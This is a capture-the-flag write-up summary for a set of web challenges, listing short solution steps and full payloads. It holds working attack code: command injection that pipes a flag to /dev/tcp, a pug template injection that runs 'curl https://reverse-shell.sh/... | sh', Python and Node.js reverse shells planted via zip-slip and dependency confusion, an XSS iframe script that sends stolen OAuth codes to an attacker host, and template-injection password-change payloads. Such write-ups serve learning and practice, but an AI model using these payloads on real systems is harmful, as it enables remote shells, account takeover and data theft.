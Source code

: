 # Summary
-----------

## Swaggy (Easy 50pts)
1. There's a list of available APIs.
2. Use `Authorization` header with creds admin:admin

## Confidentiality (Easy 50pts)
1. Command injection, `| cat flag.txt`

## Titanic (Easy 50pts)
1. URLCapture to http://localhost/server-status
2. Get credential of `root`
3. Log in

## Integrity (Medium 50pts)
1. Command Injection, `%0acat flag.txt`

## All Baked Up (Medium 359pts)
1. GraphQL Injection
2. Get a credential for authorized user
3. Use mutation for authenticating user
4. Use token and querying flag

## OPA Secrets (Hard 298pts)
1. Download Source code at `/security`
2. Create a secret and view it
3. Change it to id flag note

## Availability (Hard 357pts)
1. Command Injection, `%0acat flag.txt > /dev/tcp/ip_addr/port`

## Unpugify (Hard 480pts)
1. Application using pug and pug-code-gen, it has a critical security issue

template
```
html
  head
  body
    mixin print(text)
      p= text

    +print('Hello, world')
```
pretty
```
');process.mainModule.constructor._load('child_process').exec('curl https://reverse-shell.sh/ip_addr:port | sh');_=('
```

## Bumblebee (Hard 491pts)
1. Debug mode is enable
2. Send array in parameter to trigger error handling and leak snippet code
3. Zip file must have `.flower` extension
4. Django version is vulnerable with zip-slip
5. Replace `/usr/src/app/manage.py` using zip-slip then refresh

manage.py
```
#!/usr/bin/env python
import os
import sys
import socket,subprocess,os

if __name__ == '__main__':
    
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("ip_addr",port))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    subprocess.call(["/bin/sh","-i"])

    os.environ.setdefault('DJANGO_SETTINGS_MODULE', 'bumblebee.settings')
    try:
        from django.core.management import execute_from_command_line
    except ImportError as exc:
        raise ImportError(
            "Couldn't import Django. Are you sure it's installed and "
            "available on your PYTHONPATH environment variable? Did you "
            "forget to activate a virtual environment?"
        ) from exc
    execute_from_command_line(sys.argv)
```

## Spiral CI (Hard 496pts) ([Detailed Writeup](Web/SpiralCI))
1. Application accepting JWT `none` algorithm
2. Tampering `user_id` to `2`
3. Calculator Project using local dependency
4. Vulnerable to dependency confusion

calc.test.js
```
var net = require('net');
var spawn = require('child_process').spawn;
HOST="ip_addr";
PORT="port";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { 
    String.prototype.contains = function(it) { 
        return this.indexOf(it) != -1; 
    }; 
}
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit', function(code,signal){
            client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
```

## Sticky Notes (Hard 500pts) ([Detailed Writeup](Web/Sticky%20Notes))
1. The flow of oauth login for this application is something like this
`sticky-notes/oauth/signin -> oaut/oauth/authorize?state=nyx -> sticky-notes/signin_callback?code=steal&state=nyx`
2. Sticky notes application have XSS in `report a problem`
3. Steal `code` using `iframe`
4. Set `iframe` to oauth application using valid `state` and default value `redirect_url`
5. The oauth application will redirecting to sticky notes with `code` parameter
6. Send the current url to our webhook using js

payload
```
<iframe src="http://challenge.ctf.games:30783/oauth/authorize?response_type=code&client_id=QJ7Bo88ZBioNTZSXTOJrMYDx&redirect_uri=http%3A%2F%2Fchallenge.ctf.games%3A30846%2Foauth%2Fsignin_callback&scope=profile&state=Kjq4dAo18GjizCdF4sYxxO9GVFMddx&action=signin">
</iframe>
<script>
document.querySelector('iframe').addEventListener("load", function(){
    fetch('//ip_addr:port/?'+btoa(this.contentWindow.location.href))
})
</script>
```

## Go Blog (Hard 500pts) ([Detailed Writeup](Web/GoBlog))
1. `url/models/` and `url/web/` leaking source code
2. Username parameter have SSTI
3. `{{.}}` get credentials of admin but password is encrypted in sha512
3. Set username to `{{.CurrentUser.ChangePassword 'nyx'}}` and visit `/profile` will change our account password to `nyx`.
4. Set username to `{{.Post.Author.ChangePassword 'nyx'}}` and visit `/post/{post_uuid_admin}` will change the password the author of post to `nyx`
5. Change password of admin, logged in and visit `/admin`
